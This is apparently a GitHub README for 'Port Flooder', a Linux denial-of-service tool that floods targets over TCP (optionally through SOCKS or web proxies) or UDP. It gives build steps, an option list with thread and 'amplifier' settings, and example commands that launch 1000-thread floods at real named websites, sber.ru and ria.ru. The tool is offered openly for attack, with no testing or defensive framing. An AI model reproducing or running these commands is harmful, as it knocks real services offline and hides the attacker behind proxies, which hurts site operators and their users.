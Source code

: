 # Port Flooder
Port flooding application (for Linux)

# Methods
 - TCP (with proxy)
 - UDP (no proxy)

# Features
 - Can send not just random data but also data from <b>file</b>
 - Can use proxy (now it's just for TCP)

# Dependencies

```less
git
cmake>=3
make
g++
```

# Use

To download install git on your machine and type:
```bash
git clone https://github.com/imperzer0/port_flooder.git
```

<h2>Archlinux</h2>

```bash
cd port_flooder
makepkg -sif
```

<h2>Other distributions</h2>

Compile:
```bash
cd port_flooder
cmake -DCMAKE_BUILD_TYPE=Release -DCMAKE_C_COMPILER=gcc -DCMAKE_CXX_COMPILER=g++ -DPACKAGE_VERSION="port-flooder (GIT)" .
make
```

Run with command:
```less
./port_flooder -m <method> -t <target> -T <threads_count> -a <amplifier> [ -d <file> -D -p <proxy_address> -s <sock_version> -U <username> -P <password> ]
```

Program arguments description:
```less
Options:
 --method|-m        <method>    ddos method
 --target|-t        <target>    target address
 --threads|-T       <threads>   threads count
 --amplifier|-a     <amplifier> in-thread requests count
 --data|-d          <file>      send data from file
 --debug|-D                     toggle debug printing
 --proxy|-p         <proxy>     proxy address
 --sockver|-s       <version>   proxy version:
                                 - DIRECT
                                 - SOCKS4
                                 - SOCKS5
                                 - WEB
 --proxyuser|-U     <user>      proxy username
 --proxypassword|-P <password>  password of proxy user
 ```

# Examples

```bash
./port_flooder -m TCP -t http://sber.ru -T 1000 -a 100 -d http_header.txt -p socks5://proxy.com -s SOCK5
```

```bash
./port_flooder -m TCP -t http://ria.ru -T 1000 -a 10
```

```bash
./port_flooder -m UDP -t http://ria.ru -T 1000 -a 10 -d http_header.txt
```
